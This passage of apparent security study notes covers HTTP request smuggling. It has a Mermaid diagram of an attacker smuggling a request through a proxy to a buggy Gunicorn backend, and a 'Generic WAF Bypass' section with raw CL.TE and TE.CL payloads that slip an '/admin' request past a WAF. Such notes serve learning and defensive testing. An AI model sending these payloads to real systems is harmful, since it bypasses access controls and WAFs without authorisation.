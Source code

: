 
### Mermaid Diagram

```mermaid
sequenceDiagram
    participant Attacker
    participant Proxy
    participant Gunicorn (Buggy)

    Attacker->>Proxy: GET / with CL=49 + Sec-WebSocket-Key1
    Proxy->>Gunicorn (Buggy): Full body including smuggled GET
    Gunicorn (Buggy)->>Gunicorn (Buggy): Reads 8 bytes only (xxxxxxxx)
    Note over Gunicorn (Buggy): Treats remainder as second request\n(GET /admin)
```

---

# 5. Generic WAF Bypass via Smuggling

### Concept

- WAFs inspect and block requests containing sensitive strings like `/admin`.
    
- If the WAF **only sees the first request**, smuggled requests **bypass filtering**.
    
- Works in **CL.TE**, **TE.CL**, and even buggy implementations.
    

---

### CL.TE Payload

```http
POST / HTTP/1.1
Host: vuln.site
Content-Length: 64
Transfer-Encoding: chunked

0

POST /admin HTTP/1.1
Host: localhost
Dummy:
```

- Proxy uses `Content-Length`, backend uses chunked encoding.
    
- WAF only sees `/`, backend executes `/admin`.
    

---

### TE.CL Payload

```http
GET / HTTP/1.1
Host: vuln.site
Content-Length: 4
Transfer-Encoding: chunked

35
GET /admin HTTP/1.1
Host: vuln.site

0
```

